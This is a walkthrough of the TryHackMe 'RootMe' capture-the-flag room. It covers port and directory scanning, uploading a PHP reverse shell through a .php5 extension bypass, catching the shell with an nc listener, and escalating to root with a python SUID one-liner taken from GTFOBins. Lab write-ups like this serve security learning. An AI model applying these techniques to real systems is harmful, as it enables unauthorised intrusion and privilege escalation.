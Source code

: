 #### A easy level CTF. Link of the CTF is <br>https://tryhackme.com/room/rrootme
# Steps followed
1.
## Task 1:- Deploy the machine
2. Deployed the machine.<br>
## Task 2:-
3. Use <b><ins>nmap/zenmap</ins></b> for finding open ports.<br>
```
nmap -sV -T4 -O -F --version-light <ip-address>
```
4.
### First Question:- Scan the machine, how many ports are open?
5.
6. So as we can see from the screenshot that 2 ports 22 and 80 are open.
### Second Question:- What version of Apache is running?
7.
8. Here, we can see the version of Apache that is runnung on port 80.
### Third Question:- What service is running on port 22?
9.
10. we can see that on port 22 ssh is running.
### Forth Question:- Find directories on the web server using the GoBuster tool.
```
gobuster dir -u http://<ip-address> -w /usr/share/wordlists/dirb/common.txt
```
11.
### Fifth Question:- What is the hidden directory?
12.
13. We can see from the screenshot that there are useful directries like js,css but our answer is of 5 letter directory name :- <ins><b> /panel/ </b></ins>
## Task 3:-
### user.txt?
We first tried to upload Shell.php into the site but was not able to then we tried to try different php extensions like .php2,.php3,.php4 etc.
<br>
Luckily .php5 worked and we were able to upload reverse shell into the site.<br>
But still we are not able to get a shell. For it we need to run that file which can be done by going to another directory /uploads/.<br>
We will run 
```
nc -lvnp 1234
```
on the terminal and run our file on the site.
<br>
Hence, We received the shell in the terminal.
Then, we will use the following command to find where <b><ins> user.txt </b></ins>
really is
```
find / -name "user.txt" 2>/dev/null
```
We will get the directory where it is and do cat
```
cat /var/bin/user.txt
```
and Hence we find our flag.
```
THM{***_***_*_*****}
```
## Task 4
### First Question :- Search for files with SUID permission, which file is weird?
To find this we will use the following terminal cmd
```
find / -user root -perm /4000 2>/dev/null
```
now we will see all directories which file seems to be wierd.
<br>
And we found that file
```
/usr/bin/python
```
### Second Question :- Find a form to escalate your privileges.
We search for getfobins :- https://gtfobins.github.io/#+suid
<br>
we search for the python privilege escatalation and we found the following:-
```
sudo install -m =xs $(which python)
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
and by applying it we get to the root user.
### Third Question :- root.txt
We implement the cmd
```
cat /root/root.txt
```
and we found our root flag
```
THM{*********_**********}
```
